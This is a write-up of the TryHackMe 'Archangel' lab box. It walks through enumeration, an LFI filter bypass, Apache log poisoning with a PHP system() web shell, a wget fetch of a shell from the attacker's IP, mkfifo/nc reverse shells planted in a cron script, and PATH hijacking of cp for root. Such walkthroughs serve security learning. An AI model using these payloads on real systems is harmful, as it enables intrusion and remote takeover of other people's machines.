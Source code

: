 # [Archangel](https://tryhackme.com/room/archangel) TryHackMe Writeup


![](images/BoxImage.jpeg)


This room involves LFI fo initial access , horizontal privilege escalation , then unsecure PATH variable exploitation .



## __First Stage : Enumeration__


Let's fire up nmap .

```
# Nmap 7.91 scan initiated Fri Feb  5 19:23:46 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.100.228
Warning: 10.10.100.228 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.100.228
Host is up, received conn-refused (0.15s latency).
Scanned at 2021-02-05 19:23:47 IST for 780s
Not shown: 65454 closed ports, 79 filtered ports
Reason: 65454 conn-refused and 79 no-responses
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPrwb4vLZ/CJqefgxZMUh3zsubjXMLrKYpP8Oy5jNSRaZynNICWMQNfcuLZ2GZbR84iEQJrNqCFcbsgD+4OPyy0TXV1biJExck3OlriDBn3g9trxh6qcHTBKoUMM3CnEJtuaZ1ZPmmebbRGyrG03jzIow+w2updsJ3C0nkUxdSQ7FaNxwYOZ5S3X5XdLw2RXu/o130fs6qmFYYTm2qii6Ilf5EkyffeYRc8SbPpZKoEpT7TQ08VYEICier9ND408kGERHinsVtBDkaCec3XmWXkFsOJUdW4BYVhrD3M8JBvL1kPmReOnx8Q7JX2JpGDenXNOjEBS3BIX2vjj17Qo3V
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKhhd/akQ2OLPa2ogtMy7V/GEqDyDz8IZZQ+266QEHke6vdC9papydu1wlbdtMVdOPx1S6zxA4CzyrcIwDQSiCg=
|   256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBE3FV9PrmRlGbT2XSUjGvDjlWoA/7nPoHjcCXLer12O
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb  5 19:36:48 2021 -- 1 IP address (1 host up) scanned in 781.74 seconds
```

So open ports are :

* 22
* 80

Hence I visited the port 80.


![](images/port80.png)



Hence we found a potential vhost __mafialive.thm__.

Let's add it in **/etc/hosts**.


Then I  visited it . We can find the first flag.


![](images/firstflag.png)


I ran gobuster.

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://mafialive.thm/
[+] Threads:        50
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js,txt,html,php
[+] Timeout:        10s
===============================================================
2021/02/05 20:08:17 Starting gobuster
===============================================================
/index.html (Status: 200)
/test.php (Status: 200)
/robots.txt (Status: 200)
```
Hence we get **test.php** so I visited .


![](images/testphp.png)



So if we click the button we get 

![](images/buttonclick.png)


So the parameter **view** gives a potential __LFI__ vuln.


So I opened burp and captured the request.


Hence I started trying every filter , only filter that worked was 

> php://filter/convert.base64-encode/resource=


![](images/filter.png)



So we get the file in base64 format. Let's try for test.php

> php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

![](images/burp1.png)



So if we decode it we get.

```php
	
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{<redacted>}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>
```


Hence we get the second flag .



## __Second Stage : Initial access as www-data__

Now we can see that the test.php is filtering "../.."

Hence we can use filter evasion techniques to bypass.

According to the hint given we have to poison apache log.

Let's do it.


> http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log

So we can see the log file .

![](images/log1.png)

So we have to poisin the log by manupilating user-agent .

> \<?php system($_GET['shell']); ?>

![](images/poison.png)



So next we can use this to download php reverse-shell file 

> mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log&shell=wget http://10.8.74.96:8000/shell.php


We can check it 

![](images/wget.png)


Next we have to execute 

> mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log&shell=php shell.php




![](images/www-data.png)


![](images/user1.png)


## __Third Stage : www-data to archangel__

So after I linpeas I got this.


![](images/crontab.png)


![](images/helloworld.png)


So we can edit this file , let's add reverse shell into this .

> echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \<your vpn-ip> 4242 >/tmp/f " >> helloworld.sh

Hence we get a shell


![](images/archangel.png)



## __Fourth Stage : archangel to root__


There is a file called backup which was interesting.


![](images/file.png)

So it is a elf file , I transfered it to my local machine and used ghidra .


![](images/ghidra.png)



We can see it is calling binary cp without proper path , we can use this to our advantage.



So the exploit is :

```bash
touch /tmp/cp
chmod +x /tmp/cp
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <vpn-ip> 4444 >/tmp/f" >> /tmp/cp
export PATH=/tmp:$PATH
./backup
```


Hence we get a shell.


![](images/root.png)







